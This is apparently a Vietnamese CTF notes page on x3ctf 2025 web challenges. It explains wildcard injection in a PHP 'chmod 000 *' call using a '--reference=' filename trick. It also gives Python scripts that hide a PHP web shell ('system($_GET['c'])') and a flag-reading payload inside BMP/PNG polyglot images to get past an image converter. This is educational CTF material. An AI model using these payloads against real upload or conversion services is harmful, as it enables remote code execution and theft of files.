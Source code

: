 <div align='center'>

## **x3ctf Web Note (Not my writeup)**

</div>

Source code: https://github.com/x3ctf/challenges-2025

## **Submission**

Code bị lỗi:

```php
shell_exec('chmod 000 *');
```

**Tại sao lỗi:** tính năng của `*` trong UNIX shell aka wildcard injection:

- `*` sẽ hiểu luôn phần argument flag của command (VD: nếu có file tên `--help` thì `chmod *` sẽ thành `chmod --help`)

    ![alt text](image.png)

- `*` sẽ bỏ qua file bắt đầu bởi dấu chấm (hidden file)

    ![alt text](image-1.png)

**Reference:** 
- https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
- https://stackoverflow.com/questions/17462634/why-unix-wildcard-does-not-include


**Exploit:** Lợi dụng options --reference của chmod

- Tạo file `.abc.txt`: `chmod 000 *` sẽ bỏ qua file này => default permission
- Tạo file `--reference=.abc.txt`: `chmod 000 *` sẽ chỉnh quyền theo quyền của file `.abc.txt` => flag.txt sẽ bị đổi quyền theo file trên => readable

**Writeup:** https://gist.github.com/shafouz/3590fd2e1c4aa52fc4e3329efdf30c45

## **kittyconvert**

Cách nhét php code trong BMP file khi file ảnh được xử lí qua [PHP-ICO](https://github.com/chrisbliss18/php-ico) aka php-bmp polygot

```python
import cv2
import numpy as np

# giấu trong opacity mask
# Reference: https://discord.com/channels/977222226631880777/1333119208904724582/1333150919080149062

payload = b"<?php system($_GET['c'])?>a"
bits = ''.join([bin(i)[2:].zfill(8) for i in payload])
print(bits)
print(len(bits))

size = (32, 32)

im = np.zeros((*size, 4), np.uint8)

for ind, i in enumerate(bits):
    x = ind%32
    im[31-(ind//32)][x] = [255, 255, 255, (1-int(i))*255]

for ind in range(ind, 32 * 32):
    x = ind%32
    im[31-(ind//32)][x] = [255, 255, 255, 255]

# Save to disk
cv2.imwrite('result.png', im)
```

Cách khác 

```python
from PIL import Image
# giấu trong color mask 
# Reference: https://discord.com/channels/977222226631880777/1333119208904724582/1333143473938763777
# source = bytearray('''<?php readfile('/flag.txt'); __halt_compiler();'''.encode())
# Turns to              <?php rdadfhle(&/fl`g.txt'): __halt^compiler();
# This is a bit of a problem, so we have to convert the alpha channel
# Here is the list of characters that make it through unchanged instead:
#   `bdfhjlnprtvxz|~@BDFHJLNPRTVXZ\^ "$&(*,.02468:<>

source = bytearray('''<?php  readfile('/flag.txt' );  //'''.encode())
#                     BGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRA

size = (width, height) = (32, 32)
channels = 4

source = source.ljust(width * channels, b'A')
source = source.rjust(width * height * channels, b'A')
image = Image.frombytes('RGBA', size, source, 'raw', 'BGRA')

image.save('polyglot.png')
```